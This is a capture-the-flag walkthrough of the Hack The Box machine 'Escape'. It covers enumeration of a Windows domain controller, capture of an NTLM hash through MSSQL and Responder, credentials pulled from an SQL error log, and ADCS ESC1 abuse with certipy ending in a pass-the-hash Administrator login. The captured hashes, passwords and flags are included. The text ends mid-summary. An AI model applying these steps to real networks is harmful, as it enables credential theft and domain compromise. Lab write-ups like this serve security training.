









Intro

[[windows]] [[NotAssumedBreach]] [[mssql]] [[certificates]] [[certvulntoESC1]]
Tags: #windows #NotAssumedBreach #mssql #certificates #certvulntoESC1
Tools used:
- rpcclient (RPC enumeration)
- smbclient (SMB enumeration)
- ldapsearch (LDAP enumeration)
- mssqlclient (MSSQL enumeration, impacket)
- Responder (capturing the NTLM hash)
- certipy (ADCS abuse)
Reconnaissance
Add target to /etc/hosts
Nmap scan
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2025-08-17 09:18 CDT
Nmap scan report for Escape.htb (10.129.228.253)
Host is up (0.0074s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-08-17 22:18:28Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after: 2074-01-05T23:03:57
|_ssl-date: 2025-08-17T22:19:49+00:00; +8h00m01s from scanner time.
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-08-17T22:19:48+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after: 2074-01-05T23:03:57
1433/tcp open ms-sql-s Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info:
| 10.129.228.253:1433:
| Target_Name: sequel
| NetBIOS_Domain_Name: sequel
| NetBIOS_Computer_Name: DC
| DNS_Domain_Name: sequel.htb
| DNS_Computer_Name: dc.sequel.htb
| DNS_Tree_Name: sequel.htb
|_ Product_Version: 10.0.17763
| ms-sql-info:
| 10.129.228.253:1433:
| Version:
| name: Microsoft SQL Server 2019 RTM
| number: 15.00.2000.00
| Product: Microsoft SQL Server 2019
| Service pack level: RTM
| Post-SP patches applied: false
|_ TCP port: 1433
|_ssl-date: 2025-08-17T22:19:49+00:00; +8h00m01s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-08-17T22:11:38
|_Not valid after: 2055-08-17T22:11:38
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-08-17T22:19:49+00:00; +8h00m01s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after: 2074-01-05T23:03:57
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-08-17T22:19:48+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after: 2074-01-05T23:03:57
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 8h00m00s, deviation: 0s, median: 7h59m59s
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
| smb2-time:
| date: 2025-08-17T22:19:11
|_ start_date: N/A
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 93.92 seconds
The host appears to be a DC, add this also on etc hosts: Subject Alternative Name: DNS: dc.sequel.htb and also change it to match to domain accordingly:
RPC enumeration
Anonymous logon
tried running some commands but got access denied:
└──╼ [★]$ rpcclient -U "" -N sequel\.htb
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> enumdomains
result was NT_STATUS_ACCESS_DENIED
rpcclient $>
SMB enumeration
Anonymous logon
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
Public Disk
SYSVOL Disk Logon server share
hm i saw here the share Public which is not a default one, we could inspect it further:
smb: \> ls
. D 0 Sat Nov 19 05:51:25 2022
.. D 0 Sat Nov 19 05:51:25 2022
SQL Server Procedures.pdf A 49551 Fri Nov 18 07:39:43 202
Interesting, lets download it:
smb: \> get SQL Server Procedures.pdf
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \SQL
smb: \> get "SQL Server Procedures.pdf"
getting file \SQL Server Procedures.pdf of size 49551 as SQL Server Procedures.pdf (1512.2 KiloBytes/sec) (average 1512.2 KiloBytes/sec)
(here you must use double quotes to download this file, since the filename contains spaces)
Next, i viewed the pdf: SQL Server Procedures.pdf
1st page:

2nd page:

- For the
domain joinedmachines, the SQL Management Studio link is
- For the
non domain joinedmachines, the command inside the pdf is:
- Also, Brandon’s mail here is:
brandon.brown@sequel.htb - Lastly, we are given creds:
So in the contents of the pdf file give out important information. The first hint we are given, is that it has to do with SQL, and specifically an SQL Server.
Later on, the pdf informs us that machines out of the domain can connect in a different way, using cmdkey command instead of installing the SQL Management Studio.
Furthermoe, since we are give creds, we could check whether we can login somewhere with them first:
Checking where we can login with the given creds
Lets now use my script to bulk check the services to which we can login with those creds: ch3ckkm8/auto_netexec: Automating netexec to bulk check all available services, given the target and the creds to check
[*] Checking if winrm port 5985 is open on sequel.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM 10.129.228.253 5985 DC [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
WINRM 10.129.228.253 5985 DC [-] sequel.htb\PublicUser:GuestUserCantWrite1
[*] Checking if smb port 445 is open on sequel.htb...
[+] Port 445 open — checking smb with netexec
SMB 10.129.228.253 445 DC [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB 10.129.228.253 445 DC [+] sequel.htb\PublicUser:GuestUserCantWrite1
[*] Checking if ldap port 389 is open on sequel.htb...
[+] Port 389 open — checking ldap with netexec
SMB 10.129.228.253 445 DC [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
LDAPS 10.129.228.253 636 DC [-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C090A5C, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4563
LDAPS 10.129.228.253 636 DC [+] sequel.htb\PublicUser:GuestUserCantWrite1
[*] Checking if rdp port 3389 is open on sequel.htb...
[-] Skipping rdp — port 3389 is closed
[*] Checking if wmi port 135 is open on sequel.htb...
[+] Port 135 open — checking wmi with netexec
RPC 10.129.228.253 135 DC [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
RPC 10.129.228.253 135 DC [-] sequel.htb\PublicUser:GuestUserCantWrite1 (RPC_S_SEC_PKG_ERROR)
[*] Checking if nfs port 2049 is open on sequel.htb...
[-] Skipping nfs — port 2049 is closed
[*] Checking if ssh port 22 is open on sequel.htb...
[-] Skipping ssh — port 22 is closed
[*] Checking if vnc port 5900 is open on sequel.htb...
[-] Skipping vnc — port 5900 is closed
[*] Checking if ftp port 21 is open on sequel.htb...
[-] Skipping ftp — port 21 is closed
[*] Checking if mssql port 1433 is open on sequel.htb...
[+] Port 1433 open — checking mssql with netexec
[*] Testing MSSQL with domain/Windows auth...
MSSQL 10.129.228.253 1433 DC [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
MSSQL 10.129.228.253 1433 DC [-] sequel.htb\PublicUser:GuestUserCantWrite1 (Login failed for user 'sequel\Guest'. Please try again with or without '--local-auth')
[*] Testing MSSQL with local SQL auth...
MSSQL 10.129.228.253 1433 DC [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
MSSQL 10.129.228.253 1433 DC [+] DC\PublicUser:GuestUserCantWrite1
According to the output here, we can login towards LDAP,SMB and MSSQL services, lets enumerate them with those creds:
LDAP enumeration as PublicUser
dn:
namingcontexts: DC=sequel,DC=htb
namingcontexts: CN=Configuration,DC=sequel,DC=htb
namingcontexts: CN=Schema,CN=Configuration,DC=sequel,DC=htb
namingcontexts: DC=DomainDnsZones,DC=sequel,DC=htb
namingcontexts: DC=ForestDnsZones,DC=sequel,DC=htb
tried anonymous , not successful:
SMB enumeration as PublicUser
nxc smb sequel.htb -u 'PublicUser' -p 'GuestUserCantWrite1 ' --shares
smbmap -H sequel.htb -d sequel.htb -u PublicUser-p GuestUserCantWrite1
All of these failed…. hm what now, we tried LDAP SMB and no luck.
Lets move on and to investigate MSSQL :
MSSQL enumeration as PublicUser
login was successful! , lets move on now and try to inspect the databases inside:
SQL (PublicUser guest@master)> select name from master..sysdatabases;
name
------
master
tempdb
model
msdb
After some research, i found that these 4 databases are default databases on MSSQL…. so navigating their schemas and values wont provide anything usefull.
Foothold
But what to do next??? Can we do sth more in MSSQL besides viewing database contents?
i did some research, tried multiple things from here:
https://hacktricks.xsx.tw/network-services-pentesting/pentesting-mssql-microsoft-sql-server
but the only one that appeared to work was the NetNTLM part:
remotely, on the MSSQL shell run this with your attacker ip:
and on your host, start responder:
aand we got the ntlm hash of sql_svc user!
[+] Listening for events...
[SMB] NTLMv2-SSP Client : 10.129.228.253
[SMB] NTLMv2-SSP Username : sequel\sql_svc
[SMB] NTLMv2-SSP Hash : sql_svc::sequel:031325f9a83e80fb:D6EE0D2E3D143D7A98B504141951CB4B:01010000000000008074FBAFBD0FDC01FAB7D3718260D4BE0000000002000800470043004B00550001001E00570049004E002D004F00500045003900370052003800420044004E00350004003400570049004E002D004F00500045003900370052003800420044004E0035002E00470043004B0055002E004C004F00430041004C0003001400470043004B0055002E004C004F00430041004C0005001400470043004B0055002E004C004F00430041004C00070008008074FBAFBD0FDC0106000400020000000800300030000000000000000000000000300000DB431A3C79C771BEAD50BC0D8459CAFF43AA7C9AE900254574DC2382A288D8060A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00390036000000000000000000
Now that we have the hash, lets attempt to crack it:
the crack was successful, and the password is REGGIE1234ronnie, we can now try to login via win-rm:
and we are in:

whats next? i checked the desktop and there was no flag there.
Directories and Files enumeration as sql_svc
We could do some enumeration here, such as inspecting the Users:
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 2/7/2023 8:58 AM Administrator
d-r--- 7/20/2021 12:23 PM Public
d----- 2/1/2023 6:37 PM Ryan.Cooper
d----- 2/7/2023 8:10 AM sql_svc
tried navigating to Public and Ryan.Cooper but access was denied, lets move backwards towards the C drive to get a better picture of the overall file structure:
Directory: C:\
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 2/1/2023 8:15 PM PerfLogs
d-r--- 2/6/2023 12:08 PM Program Files
d----- 11/19/2022 3:51 AM Program Files (x86)
d----- 11/19/2022 3:51 AM Public
d----- 2/1/2023 1:02 PM SQLServer
d-r--- 2/1/2023 1:55 PM Users
d----- 2/6/2023 7:21 AM Window
Here are goal is to search for non default folders first. In this case, Public and SQLServer to me does not seem like default windows folders, so lets search those 2 first:
Public folder:
Directory: C:\Public
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 11/18/2022 5:39 AM 49551 SQL Server Procedures.pdf
Contains the pdf we found via smb earlier on the recon stage
SQLServer folder:
Directory: C:\SQLServer
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 2/7/2023 8:06 AM Logs
d----- 11/18/2022 1:37 PM SQLEXPR_2019
-a---- 11/18/2022 1:35 PM 6379936 sqlexpress.exe
-a---- 11/18/2022 1:36 PM 268090448 SQLEXPR_x64_ENU.exe
hm ok now we found some files, since inspecting/debugging the .exe files is a more difficult approach, i will try searching the Logs and SQLEXPR_2019 folders first:
Logs:
Directory: C:\SQLServer\Logs
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 2/7/2023 8:06 AM 27608 ERRORLOG.BAK
contains an .BAK file, which is an extension used to signify a backup copy of a file, also lets download it and inspect it offline:
*Evil-WinRM* PS C:\SQLServer\Logs> download ERRORLOG.BAK
Info: Downloading C:\SQLServer\Logs\ERRORLOG.BAK to ERRORLOG.BAK
Info: Download successful!
ERRORLOG.BAK:
It contains large number of logs, but the most interesting ones were:
..........
2022-11-18 13:43:07.44 Logon Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
As we can see here, it contains SQL error log, the logs above show that user Ryan.Cooper failed to login once. After ryan’s failed login, another user seems to fail NuclearMosquito3 but by inspecting earlier the valid user i did not see that user anywhere! What if this username was a mistype by ryan and provided his password instead of his username? Lets find out:
Checking where we can login with ryan’s creds
[*] Checking if winrm port 5985 is open on sequel.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM 10.129.228.253 5985 DC [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
WINRM 10.129.228.253 5985 DC [+] sequel.htb\Ryan.Cooper:NuclearMosquito3 (Pwn3d!)
[*] Checking if smb port 445 is open on sequel.htb...
[+] Port 445 open — checking smb with netexec
SMB 10.129.228.253 445 DC [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB 10.129.228.253 445 DC [+] sequel.htb\Ryan.Cooper:NuclearMosquito3
[*] Checking if ldap port 389 is open on sequel.htb...
[+] Port 389 open — checking ldap with netexec
SMB 10.129.228.253 445 DC [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
LDAPS 10.129.228.253 636 DC [+] sequel.htb\Ryan.Cooper:NuclearMosquito3
[*] Checking if rdp port 3389 is open on sequel.htb...
[-] Skipping rdp — port 3389 is closed
[*] Checking if wmi port 135 is open on sequel.htb...
[-] Skipping wmi — port 135 is closed
[*] Checking if nfs port 2049 is open on sequel.htb...
[-] Skipping nfs — port 2049 is closed
[*] Checking if ssh port 22 is open on sequel.htb...
[-] Skipping ssh — port 22 is closed
[*] Checking if vnc port 5900 is open on sequel.htb...
[-] Skipping vnc — port 5900 is closed
[*] Checking if ftp port 21 is open on sequel.htb...
[-] Skipping ftp — port 21 is closed
[*] Checking if mssql port 1433 is open on sequel.htb...
[+] Port 1433 open — checking mssql with netexec
MSSQL 10.129.228.253 1433 DC [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
MSSQL 10.129.228.253 1433 DC [+] sequel.htb\Ryan.Cooper:NuclearMosquito3
great! it appears ryan can login to winrm with those creds
grabbed user flag! c139f30e7a999df9e9d0cb0887b679eb
proof:

Privesc
Folder structure:
*Evil-WinRM* PS C:\Users\Ryan.Cooper> tree /f /a
Folder PATH listing
Volume serial number is EB33-4140
C:.
+---3D Objects
+---Contacts
+---Desktop
| user.txt
|
+---Documents
+---Downloads
+---Favorites
| | Bing.url
| |
| \---Links
+---Links
| Desktop.lnk
| Downloads.lnk
|
+---Music
+---Pictures
+---Saved Games
+---Searches
\---Videos
Find domain groups:
*Evil-WinRM* PS C:\Users\Ryan.Cooper> net group /domain
Group Accounts for \\
-------------------------------------------------------------------------------
*Cloneable Domain Controllers
*DnsUpdateProxy
*Domain Admins
*Domain Computers
*Domain Controllers
*Domain Guests
*Domain Users
*Enterprise Admins
*Enterprise Key Admins
*Enterprise Read-only Domain Controllers
*Group Policy Creator Owners
*Key Admins
*Protected Users
*Read-only Domain Controllers
*Schema Admins
Current user’s Group membership
GROUP INFORMATION
-----------------
Group Name Type SID Attributes
=========================================== ================ ============ ==================================================
Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users Alias S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users Alias S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access Alias S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK Well-known group S-1-5-2 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization Well-known group S-1-5-15 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication Well-known group S-1-5-64-10 Mandatory group, Enabled by default, Enabled group
the one group i found interesting here was BUILTIN\Certificate Service DCOM Access
Current user’s privileges:
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ============================== =======
SeMachineAccountPrivilege Add workstations to domain Enabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
Lets try running bloodhound first to get a better picture of the AD:
Bloodhound as ryan
bloodhound-python -u 'ryan.cooper' -p 'NuclearMosquito3' -d sequel.htb -ns 10.129.228.253 -c All --zip
it was successful, lets dive in
Ryan.Cooper has no OUTBOUND OBJECT CONTROL

and his Group Membership also provides nothing interesting

Since ryan has nothing further valuable here, we could inspect other objects:
For example, we can view the Domain Users:

By greater inspection to all of them, found no obvious attack paths….
Okay, lets take a break and think again, what do we already know about our user?
For example, our user is member of CERTIFICATE SERVICE DCOM ACCESS@SEQUEL.HTB group, what does that mean?
Well just by reading the name of this group it is obvious that certificates are involved, and since certificates are involved, this means that Active Directory Certificate Service (AD CS) exists.
So why not try enumerate AD CS? lets try:
Enumerate ADCS
certipy find -u "Ryan.Cooper@sequel.htb" -p 'NuclearMosquito3' -dc-ip 10.129.228.253 -vulnerable -stdout
from the output, scroll down on the Vulnerabilities section:
[!] Vulnerabilities
ESC1 : 'SEQUEL.HTB\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
nice!, it seems its vulnerable to ESC1 ! this should be our attack path
Abusing ESC1
There are multiple ways to do this, one is described here (via certify and rubeus) https://bloodhound.specterops.io/resources/edges/adcs-esc1
I preferred using certipy since i was more familiar with it:
1. Request pfx certificate
first lets sync with the DC
then use certipy
certipy req -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -upn administrator@sequel.htb -ca sequel-dc-ca -template UserAuthentication
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 14
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
this saved the administrator.pfx
2. Get TGT hash from the certificate
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
Great! we got the NTLM hash of the Administrator, now lets login with winrm
Login as Administrator via pass the hash
grabbed root flag! 9cdc0e5182e2e2d9e3ad692973a0d597
proof

Folder structure:
*Evil-WinRM* PS C:\Users\Administrator> tree /f /a
Folder PATH listing
Volume serial number is EB33-4140
C:.
+---.azuredatastudio
| | argv.json
| |
| \---extensions
+---3D Objects
+---Contacts
+---Desktop
| root.txt
|
+---Documents
| +---SQL Server Management Studio
| | \---Code Snippets
| | \---SQL
| | \---My Code Snippets
| \---Visual Studio 2017
| \---Templates
| +---ItemTemplates
| | +---JavaScript
| | \---TypeScript
| \---ProjectTemplates
| +---JavaScript
| \---TypeScript
+---Downloads
+---Favorites
| | Bing.url
| |
| \---Links
+---Links
| Desktop.lnk
| Downloads.lnk
|
+---Music
+---Pictures
+---Saved Games
+---Searches
\---Videos
Summary
Here is the list of the steps simplified, per phase, for future reference and for quick reading:
Reconnaissance
- nmap scan -> found multiple services to focus on, like
RPC,SMB,LDAP - RPC enumeration → nothing useful
- SMB enumeration revealed
sharecontaining a pdf file, containing credentials - LDAP enumeration → nothing useful
- Correlated the pdf file’s credentials with the
MSSQLservice MSSQLenumeration → revealed databases but nothing further interesting
Foothold
- Leaked NTLM hash via making MSSQL connect to my host and responder (capture hash) revealing the NTLM hash of a user (sql_svc)
- Logged in as a user (sql_svc)
- Enumerated Files and folders, found
SQL error logsfile containing plaintext creds for another user (ryan.cooper) - logged in winrm as user ryan.cooper
- grabbed user flag
Privesc
- Group membership of the user indicated
ADCSexistence - Enumerated
